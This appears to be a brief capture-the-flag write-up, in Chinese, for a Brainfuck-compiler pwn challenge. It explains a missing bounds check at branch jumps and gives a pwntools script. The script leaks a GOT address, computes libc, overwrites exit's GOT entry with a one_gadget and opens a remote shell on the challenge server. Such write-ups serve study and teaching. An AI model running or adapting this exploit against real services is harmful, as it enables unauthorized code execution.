 实现了一个brainfuck的编译器

在分支跳转处未进行边界判断，直接默认跳转时指针的相对偏移是安全的

```python
headb = self.head.codegen(module)
br1b = self.br1.codegen(module, (0, 0))
br2b = self.br2.codegen(module, (0, 0))
```

可以在分支处越界泄露出got表地址，劫持exit的got表到one_gadget,从而直接get shell

```python
from pwn import *
from time import sleep
p=remote("58.229.240.181",7777)
p.recvuntil('>>> ')
p.sendline("[]"+"<"*0x73+"[[.<]]")
s=p.recvuntil('>')[:-1]
s=s.rjust(8,'\x00')[::-1]
libc=u64(s)-1114432
onegad=libc+0x10a38c
p.sendline("[]"+"<"*0x4b+"[[,<]]")
sleep(1)
p.send(p64(onegad)[:-2][::-1])
p.sendline("<.")
p.interactive()
```

